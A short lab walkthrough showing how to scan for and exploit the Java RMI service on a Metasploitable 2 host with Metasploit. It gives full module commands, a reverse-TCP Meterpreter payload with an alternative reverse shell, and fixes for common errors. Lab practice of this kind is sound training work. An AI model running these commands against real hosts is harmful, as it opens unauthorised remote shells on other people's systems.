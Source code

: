 
#### 🔎 Detection (Scanner)

Module: `auxiliary/scanner/misc/java_rmi_server`

```text
use auxiliary/scanner/misc/java_rmi_server
set RHOSTS 192.168.56.109
set RPORT 1099
run
```

**Result:**

- Confirms Java RMI endpoint is running.
    
- Shows: `Class Loader Enabled` → indicates exploitable remote class loading.
    

---

#### 💥 Exploitation

Module: `exploit/multi/misc/java_rmi_server`

```text
use exploit/multi/misc/java_rmi_server
set RHOSTS 192.168.56.109
set RPORT 1099

# Set attacker IP on same network as target (Host-Only network, e.g. 192.168.56.x)
set LHOST 192.168.56.<your_ip>
set SRVHOST 192.168.56.<your_ip>

# Payload choice
set PAYLOAD java/meterpreter/reverse_tcp
# Alternative simpler payloads if Java meterpreter fails
# set PAYLOAD cmd/unix/reverse

run
```

---

#### ⚠️ Common Issues & Fixes

- **Error: "The RMI class loader couldn't find the payload"**
    
    - Happens if SRVHOST/LHOST are bound to wrong adapter (e.g., NAT 10.x instead of Host-Only 192.168.56.x).
        
    - ✅ Fix: Ensure both `SRVHOST` and `LHOST` are set to your 192.168.56.x IP.
        
- **Firewall blocking port 8080**
    
    - Metasploit uses a local webserver to host payload.
        
    - ✅ Fix: Allow or disable firewall temporarily on attacker.
        

---

#### ✅ Summary

1. **Scan** with `auxiliary/scanner/misc/java_rmi_server` → confirm `Class Loader Enabled`.
    
2. **Exploit** with `exploit/multi/misc/java_rmi_server`, correct LHOST/SRVHOST.
    
3. **Result**: Reverse shell or meterpreter session on Metasploitable 2.
